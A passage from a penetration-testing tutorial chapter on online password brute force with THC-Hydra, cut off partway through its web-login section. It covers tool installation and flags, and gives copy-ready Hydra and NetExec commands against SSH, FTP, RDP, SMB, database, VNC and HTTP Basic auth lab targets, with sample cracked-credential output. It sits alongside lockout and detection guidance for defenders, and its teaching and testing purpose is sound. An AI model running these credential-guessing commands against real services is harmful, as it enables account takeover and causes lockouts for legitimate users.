







This is Chapter 3 of the Password Attacks notebook. The previous two chapters lived entirely *offline*: Chapter 1 established that systems store a one-way hash of a password rather than the password itself, and Chapter 2 built the wordlists that feed the cracking engines. In both, the target was a hash you already possessed — a line from `/etc/shadow`, an NTLM dump, a captured NTLMv2 challenge-response — and the whole game was computed on your own hardware, silently, with no packets leaving your machine. Nobody on the target side could see you try ten billion candidates a second.

This chapter turns that on its head. **Online brute force** is the art of attacking authentication against a *live service that answers back*: an SSH daemon, an FTP server, a web login form, an RDP host, an SMB share. You do not have the hash. You have a login prompt, a username, and a list of guesses, and every single guess is a real network round-trip that the target processes, logs, and can rate-limit or block. Where offline cracking is measured in billions of guesses per second, online cracking is measured in *tens* per second, and every attempt is written into someone's authentication log. The economics, the tooling, and the risk profile are completely different — and the tool that has defined this space for two decades is **THC-Hydra**.

By the end of this chapter you will understand exactly when online brute force is the right call (rarely, and always as a targeted, low-and-slow technique rather than a blunt instrument), how Hydra's module system maps onto real protocols, and how to write correct Hydra commands for every service you'll meet on an engagement — including the `http-post-form` module that trips up more beginners than anything else in the tool. You'll also learn why a careless Hydra run is one of the loudest, most account-lockout-prone, most instantly-detected things you can do on a network, and how the blue team sees it.

Everything here assumes an **authorised, scoped engagement or your own lab**. Online brute force against systems you do not own or have explicit written permission to test is unlawful in essentially every jurisdiction under computer-misuse and unauthorised-access legislation — and unlike offline cracking, it is trivially logged and attributable to your source IP. Build the lab described in Part 12, attack only the containers and VMs you stand up yourself, and keep every command inside that boundary.

---

## Part 1: Online vs Offline — Two Completely Different Games

Beginners lump "brute force" into one bucket. In practice there are two utterly different disciplines, and confusing them is the single most common conceptual error in password attacks.

**Offline attack** (Chapters 1–2): you already hold the hash. You compute candidate hashes locally and compare. Nobody on the target side is involved. Speed is bounded only by your hardware — a single RTX 4090 does ~200 GH/s against NTLM. There is no network, no logging on the victim, no lockout, no rate limit. If you have the hash, offline is almost always the correct approach.

**Online attack** (this chapter): you do *not* have the hash. You send a candidate password to a live service and observe whether authentication succeeds. Speed is bounded by network latency, the server's processing time, and — critically — by defensive controls: account lockout, rate limiting, fail2ban, CAPTCHA, MFA. Realistic throughput is 1–100 attempts per second per service, and every attempt is logged with your source IP.

The numbers make the contrast brutal. Consider a wordlist of one million candidates:

| Dimension | Offline (hashcat, NTLM, one GPU) | Online (Hydra, SSH) |
|---|---|---|
| Throughput | ~200,000,000,000 guesses/sec | ~10–50 guesses/sec |
| Time for 1M candidates | < 1 millisecond | ~5.5 hours to ~28 hours |
| Visible to target? | No | Yes — every attempt logged |
| Triggers lockout? | No | Very likely |
| Bounded by | Your hardware | Network + defences |
| Needs the hash? | Yes | No |



The strategic takeaway that governs the rest of this chapter: **online brute force is a last resort, not a first move.** If you can capture a hash and crack it offline, do that. Online attacks are for the situations where no hash is available — a fresh SSH login prompt on an internal host, a web admin panel, an exposed RDP service — and even then, the professional approach is a narrow, curated, low-and-slow attempt (often a *spray*, covered in Part 9), not a million-word dictionary hammered at fifty threads until the account locks and the SOC pages the on-call analyst.

**Red team usage:** in a real engagement the decision tree above is muscle memory. You reach for Hydra only when enumeration (the Scanning & Enumeration notebook) has handed you a valid *username* and a service with password auth, and you have reason to believe defences are weak or absent. **Blue team usage:** the same tree tells you where to invest — lockout policy, rate limiting and MFA collapse the entire right-hand branch, forcing attackers back to phishing or hash capture.

---

## Part 2: What Hydra Actually Is

**THC-Hydra** (usually just "hydra") is a parallelised online login cracker written and maintained by the hacker collective *The Hacker's Choice* (THC). It has existed since 2000 and remains the de-facto standard for network authentication brute forcing. Its job is narrow and it does it well: given a target, a protocol module, and lists of usernames and passwords, it opens many connections in parallel and tries every credential combination against the service, reporting which ones the service accepts.

The reason Hydra matters — and why it hasn't been displaced in over twenty years — is its **module system**. Authentication looks different on every protocol: SSH negotiates a key exchange then runs the userauth subsystem; FTP sends `USER`/`PASS` in cleartext; HTTP Basic auth base64-encodes credentials into a header; an HTTP login *form* POSTs URL-encoded fields and signals failure with an arbitrary string in the response body. Hydra abstracts all of this into pluggable modules so that the same command-line grammar — target, users, passwords — drives an attack against any of ~50 supported services.

Hydra supports (among many others): `ssh`, `ftp`, `ftps`, `telnet`, `rdp`, `smb`, `smtp`, `pop3`, `imap`, `ldap2`/`ldap3`, `mysql`, `postgres`, `mssql`, `vnc`, `snmp`, `http-get`, `http-post`, `http-get-form`, `http-post-form`, `https-*` variants, `http-proxy`, `cisco`, `cisco-enable`, `redis`, `mongodb`, and `xmpp`. Run `hydra -h` to see the compiled-in list on your machine (it depends on which optional libraries were present at build time).



A companion GUI, **xHydra** (`hydra-gtk`), wraps the same engine with point-and-click tabs. Ignore it. Every serious operator drives Hydra from the command line because the GUI hides exactly the flags — thread count, timeout, the form failure string — that you must control to get correct results. This chapter is entirely CLI.

**Security relevance:** Hydra is a *dual-use* tool. Defenders use it to validate that their own lockout and rate-limiting controls actually work ("I ran Hydra at 64 threads against our VPN portal and the account locked after 5 attempts as designed"). Attackers use it to find the one service someone forgot to protect. Same binary, opposite intent — which is exactly why this chapter spends as much time on how the attack *looks from the defensive side* as on how to launch it.

---

## Part 3: Installing Hydra

On Kali and Parrot, Hydra is preinstalled. Confirm it and note the version:

```bash
hydra -h 2>&1 | head -n 3
```

Realistic output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] ...
```

The banner tells you two things: the version (features and module support vary by version) and — in the small print — THC's own ethics disclaimer. Take it seriously.

If Hydra is missing, or you want the newest build with all optional modules compiled in:

```bash
# Debian / Ubuntu / Kali package (fast, may lag upstream)
sudo apt update && sudo apt install -y hydra hydra-gtk

# Build from source for the latest version + all modules
sudo apt install -y build-essential libssl-dev libssh-dev libidn11-dev \
     libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev \
     libsvn-dev firebird-dev libncp-dev
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra
./configure          # detects which optional libs are present
make
sudo make install
```

Walking through the source build, because the flags matter:

- `libssh-dev` — **required for the `ssh` module.** If Hydra was built without it, `hydra ... ssh` errors out with "Compiled without LIBSSH v0.4.x support". This is the single most common "why doesn't SSH work" complaint, and the fix is always to install `libssh-dev` and rebuild.
- `libssl-dev` — enables all the `https-*` and TLS-wrapped modules (SMTPS, IMAPS, POP3S).
- `libpq-dev` / `libmysqlclient-dev` — the `postgres` and `mysql` database modules.
- `./configure` prints a summary of which modules it will build; read it. Anything marked "no" won't exist in your binary.

Verify the module you care about is present:

```bash
hydra -U http-post-form 2>&1 | head -n 20   # -U prints module usage/help
```

If that prints usage text rather than "unknown service", the module is compiled in and ready.

---

## Part 4: Hydra's Core Grammar — the Anatomy of a Command

Every Hydra command, no matter the protocol, follows the same skeleton. Learn this once and every module becomes a variation on a theme:

```
hydra [LOGIN OPTIONS] [PASSWORD OPTIONS] [TUNING] target service [MODULE-OPTIONS]
```

The two most important axes are **who** (usernames) and **what** (passwords), and Hydra uses a deliberate uppercase/lowercase convention that beginners constantly get backwards:

| Flag | Meaning | Example |
|---|---|---|
| `-l LOGIN` | a **single** login name (lowercase L) | `-l admin` |
| `-L FILE` | a **file** of login names, one per line (uppercase L) | `-L users.txt` |
| `-p PASS` | a **single** password (lowercase P) | `-p 'Summer2025!'` |
| `-P FILE` | a **file** of passwords (uppercase P) | `-P rockyou.txt` |
| `-C FILE` | a combined `login:pass` file — try each pair as-is, no cross-product | `-C creds.txt` |
| `-e nsr` | extra tries: `n`=null/empty password, `s`=login as password, `r`=reversed login | `-e nsr` |
| `-u` | loop users **outer**, passwords inner (default is passwords outer) | `-u` |
| `-t TASKS` | parallel connections (threads). Default 16 | `-t 4` |
| `-w TIME` | max wait time per response, seconds. Default 32 | `-w 10` |
| `-f` | stop the whole attack after the first valid pair is found | `-f` |
| `-F` | stop after first found **across all hosts** (with `-M`) | `-F` |
| `-o FILE` | write found credentials to FILE | `-o found.txt` |
| `-b FORMAT` | output format for `-o`: `text`, `json`, `jsonv1` | `-b json` |
| `-M FILE` | attack a **list** of targets from FILE | `-M targets.txt` |
| `-s PORT` | non-default port | `-s 2222` |
| `-S` | connect via SSL/TLS | `-S` |
| `-v` / `-V` | verbose / show every login:pass attempt | `-V` |
| `-d` | debug output (protocol-level detail) | `-d` |
| `-R` | **restore** a previous aborted session from `hydra.restore` | `-R` |
| `-I` | ignore an existing restore file, start fresh | `-I` |
| `-x MIN:MAX:CHARSET` | generate passwords (brute mode) instead of `-P` | `-x 6:8:a` |

The mental model for the default cross-product: Hydra tries **every username against every password**. With `-L users.txt` (100 users) and `-P rockyou.txt` (14 million passwords) you have just queued **1.4 billion** online attempts. At 20/sec that is over two years of continuous attack — and every account locks out in the first few minutes. This arithmetic is why online brute force is never a "point rockyou at it" affair; it is why Part 9 (spraying) exists.

The `-e nsr` flag deserves special attention because those three trivial guesses catch a shocking number of real accounts before you spend a single wordlist entry:

- `n` — the empty/null password (misconfigured service accounts, default installs).
- `s` — username as password (`admin`/`admin`, `oracle`/`oracle`).
- `r` — username reversed (`admin`/`nimda`).

**Red team usage:** always prepend `-e nsr` to the front of any online attack. It costs three attempts per user and disproportionately finds the low-hanging fruit that curated wordlists miss. **Blue team usage:** these three patterns are exactly what your detection rules and password-strength policies must forbid first.

---

## Part 5: First Real Attack — SSH

SSH is the canonical first target: it's everywhere, it's often the entry point to a Linux host, and it cleanly illustrates Hydra's grammar. **Reminder: only against your own lab host (Part 12).**

### The simplest form — single user, wordlist

```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.10.10.50
```

Breaking every token down:

- `-l bob` — single known username (you enumerated it earlier via the box's website, an SMTP `VRFY`, or a leaked doc).
- `-P /usr/share/wordlists/rockyou.txt` — the password list. On Kali, `rockyou.txt` ships gzipped; `sudo gunzip /usr/share/wordlists/rockyou.txt.gz` once to unpack it.
- `-t 4` — **four** parallel threads. This is deliberate. SSH daemons default to `MaxStartups 10:30:100` and often have `MaxSessions`/`MaxAuthTries` limits; hammering with the default 16 threads gets connections *dropped* by the daemon, producing false negatives (Hydra reports "no valid password" when really the server just refused the connections). For SSH, **4 threads is the sweet spot**; some hardened hosts need `-t 1`.
- `ssh://10.10.10.50` — the URL-style target: `service://host`. Equivalent to `10.10.10.50 ssh`.

Realistic output of a successful run:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-01 12:00:01
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.10.50:22/
[STATUS] 76.00 tries/min, 76 tries in 00:01h, 14344323 to do in 3146:07h, 4 active
[22][ssh] host: 10.10.10.50   login: bob   password: iloveyou1
[STATUS] attack finished for 10.10.10.50 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-01 12:03:42
```

Read that output carefully — it teaches the whole tool:

- `[DATA] ... 14344399 login tries` — Hydra tells you the size of the job up front. 14 million tries at 76/min is **3146 hours** (the `to do in 3146:07h` line). This is the reality check: a full rockyou run over SSH is *months*. You almost never run the whole list; you `Ctrl-C` and rethink your wordlist.
- `[STATUS] 76.00 tries/min` — your actual throughput. ~1.3/sec. That's SSH being slow (each attempt is a full key exchange). This number is why online ≠ offline.
- `[22][ssh] host: ... login: bob password: iloveyou1` — **the hit.** Port, module, host, and the credential.
- Because we didn't pass `-f`, Hydra would keep going after the first hit if there were more users. With a single `-l`, it finishes.

### Adding the freebies and stopping on first hit

```bash
hydra -l bob -e nsr -P rockyou.txt -t 4 -f -o ssh_creds.txt ssh://10.10.10.50
```

- `-e nsr` tries empty / `bob` / `bob` reversed first.
- `-f` — stop the instant a valid pair is found (don't burn the rest of the list).
- `-o ssh_creds.txt` — save the hit to a file for your report.

### Multiple users

```bash
hydra -L users.txt -P top100-passwords.txt -t 4 ssh://10.10.10.50
```

With a real wordlist this is the cross-product trap: `users.txt`×`top100` = manageable; `users.txt`×`rockyou` = never finishes and locks every account. Keep online password lists *tiny and targeted* — the top few dozen passwords for your target's region/industry, season+year patterns, defaults for the specific appliance.



**Blue team usage:** that final note is the whole detection story for SSH. Every failed attempt writes `Failed password for bob from 10.10.14.x port ...` to `auth.log`/`journald`. A burst of these from one IP is the textbook fail2ban / Wazuh / SIEM signature. We return to this in Part 11.

---

## Part 6: FTP, RDP, SMB and Other Straightforward Modules

Once you understand the SSH pattern, the "simple" protocol modules are near-identical — only the service name and a few tuning defaults change.

### FTP

```bash
hydra -L users.txt -P passwords.txt -t 8 -f ftp://10.10.10.50
```

FTP sends credentials in cleartext and imposes no key exchange, so it's faster than SSH and tolerates more threads (`-t 8`–`16`). Many FTP servers allow **anonymous** login — always test that first with a plain client before brute forcing:

```bash
ftp 10.10.10.50           # try user: anonymous, pass: anything
```

If anonymous works you may not need Hydra at all. **Bug bounty / CTF note:** exposed FTP with `anonymous:anything` or weak creds is a recurring HackTheBox/TryHackMe entry vector and a genuine (if increasingly rare) bounty finding on legacy infrastructure.

### RDP (Windows Remote Desktop)

```bash
hydra -l Administrator -P passwords.txt -t 1 -W 5 rdp://10.10.10.50
```

RDP is **delicate**. Key realities:

- Use `-t 1` (single thread). RDP tolerates parallelism badly and modern Windows/NLA will drop or throttle concurrent attempts, producing false negatives.
- `-W 5` adds a wait between connection attempts (loop delay), reducing the chance the host throttles you.
- Windows **account lockout policy** (default in many AD environments: 5 bad attempts → 30-minute lockout) means a careless RDP brute *locks the domain account* — a very visible, very disruptive event that will get your engagement noticed immediately.
- Ncrack (Part 10) is generally considered more reliable than Hydra for RDP specifically.

### SMB

```bash
hydra -L users.txt -P passwords.txt -t 1 smb://10.10.10.50
```

Modern Hydra's `smb` module works against SMBv1-ish stacks but is unreliable against current Windows and (again) risks lockout. In practice, professionals attack SMB auth with **NetExec (nxc/CrackMapExec)** instead, which is lockout-aware and reports the domain password policy:

```bash
nxc smb 10.10.10.50 -u users.txt -p passwords.txt
# nxc marks valid creds with [+] and (Pwn3d!) if admin
```

We cover NetExec fully in the Scanning & Enumeration and Active Directory notebooks; the point here is that **for Windows/AD services, lockout-aware tools beat Hydra**, and knowing which tool to reach for is part of the skill.

### Telnet, POP3, IMAP, SMTP, VNC, database services

The pattern holds:

```bash
hydra -l admin -P passwords.txt telnet://10.10.10.50
hydra -l root  -P passwords.txt mysql://10.10.10.50
hydra -L users.txt -P passwords.txt -s 5432 postgres://10.10.10.50
hydra -l user -P passwords.txt pop3://mail.lab.local
hydra -P passwords.txt -s 5900 vnc://10.10.10.50   # VNC often has no username
```

VNC is a useful special case: classic VNC auth uses a **password only, no username**, so you omit `-l`/`-L` entirely and just supply `-P`.

| Service | Module | Typical `-t` | Notes |
|---|---|---|---|
| SSH | `ssh` | 4 | needs libssh; slow; MaxAuthTries |
| FTP | `ftp` | 8–16 | cleartext; test anonymous first |
| Telnet | `telnet` | 4–8 | fragile prompt parsing; verify manually |
| RDP | `rdp` | 1 | lockout risk; Ncrack often better |
| SMB | `smb` | 1 | use NetExec instead for AD |
| MySQL | `mysql` | 4 | test `root` empty password |
| PostgreSQL | `postgres` | 4 | default port 5432 |
| VNC | `vnc` | 4 | password only, no username |
| SMTP/POP3/IMAP | `smtp`/`pop3`/`imap` | 4–8 | add `-S` for TLS variants |

---

## Part 7: HTTP Basic and Digest Authentication

Web authentication splits into two very different worlds. The first — **HTTP authentication** built into the protocol — is easy. The second — **HTML login forms** — is the hard part, and gets its own Part 8.

HTTP Basic auth is the browser pop-up dialog: the server responds `401 Unauthorized` with a `WWW-Authenticate: Basic` header, and the client resends the request with an `Authorization: Basic base64(user:pass)` header. Success returns `200`, failure returns `401`. Because success/failure is a clean HTTP status code, Hydra doesn't need you to describe the failure condition — it just watches the status.

```bash
hydra -L users.txt -P passwords.txt 10.10.10.50 http-get /admin/
```

- `http-get` — the module for Basic/Digest auth over a **GET** request.
- `/admin/` — the protected path (the module option). This is the resource that returns `401` until you authenticate.
- For HTTPS: use `https-get` **or** add `-S`, e.g. `hydra ... -S 10.10.10.50 https-get /admin/`.
- Non-standard port: `-s 8080`.

Digest auth (a challenge-response variant that avoids sending the password in cleartext) uses the same module — Hydra handles the digest handshake automatically.

Realistic output:

```
[80][http-get] host: 10.10.10.50   login: admin   password: admin123
```

**Bug bounty note:** Basic-auth-protected staging sites, `.htpasswd`-guarded admin panels, and router/printer/IoT web UIs are exactly where `http-get` earns its keep. Many embedded devices ship with documented defaults (`admin:admin`, `admin:password`) — a `-e nsr` plus a small default-creds list often pops them in seconds. This is also why default-credential findings remain a staple of real disclosed reports on HackerOne/Bugcrowd for exposed device management interfaces.



---

## Part 8: The Hard One — `http-post-form`

The overwhelming majority of real web logins are **HTML forms**: a `<form method="POST">` that submits `username` and `password` fields, and on failure re-renders the login page with some error text like "Invalid credentials". There is **no 401** — a failed login returns `200 OK` with an error message in the body, and a *successful* login also returns `200` (often a redirect). Hydra cannot guess which is which, so **you must tell it how to recognise failure.** This is the single most error-prone thing in the entire tool, and getting it right is a rite of passage.

### The three-colon syntax

The `http-post-form` module option is one string split by **colons** into three parts:

```
"PATH:POST-BODY:FAILURE-CONDITION"
```

1. **PATH** — the URL the form POSTs to (the `action` attribute), e.g. `/login.php`.
2. **POST-BODY** — the exact form data, with `^USER^` and `^PASS^` as placeholders Hydra substitutes: `username=^USER^&password=^PASS^`.
3. **FAILURE-CONDITION** — a string that appears in the response **only when login fails**, prefixed with `F=`. Alternatively use `S=` for a string that appears only on **success**.

